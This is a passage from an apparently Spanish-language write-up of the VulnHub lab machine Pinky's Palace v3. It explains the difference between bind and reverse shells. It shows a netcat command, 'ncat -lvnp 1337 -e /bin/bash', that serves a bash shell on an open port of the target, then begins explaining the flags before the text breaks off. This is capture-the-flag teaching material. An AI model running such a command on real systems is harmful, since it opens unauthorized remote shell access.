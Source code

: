 Este script lo guardamos y ejecutamos una prueba.

![alt text](/assets/img/writeups/vulnhub/pinkyspalacev3/image-3.png)

Ahora que podemos explorar el sistema de forma más o menos interactiva podemos buscar alternativas de tunneling para obtener una shell reversa.

## Bind shell

Este concepto que se conoce como bind shell es una forma de obtener una shell reversa en el sistema. Si una shell reversa se basa en la conexión desde la víctima hacia un puerto del C2C, **bind shell** es lo contrario, el C2C se conecta a un puerto abierto en el sistema objetivo.

Para conseguir esto vamos a necesitar que en la víctima exista alguna herramienta que nos permita crear un puerto abierto con ciertas características.

Podemos empezar buscando herramientas como Netcat o Socat.

![alt text](/assets/img/writeups/vulnhub/pinkyspalacev3/image-6.png)

Parece que ncat está instalado en la máquina.

Ahora el proceso es abrir el puerto en la víctima indicando que sirva bash y conectarse a él.

```bash
ncat -lvnp 1337 -e /bin/bash
```

- l: listen (escucha conexiones entrantes)

- v: modo verbose

- n: no hace DNS lookups
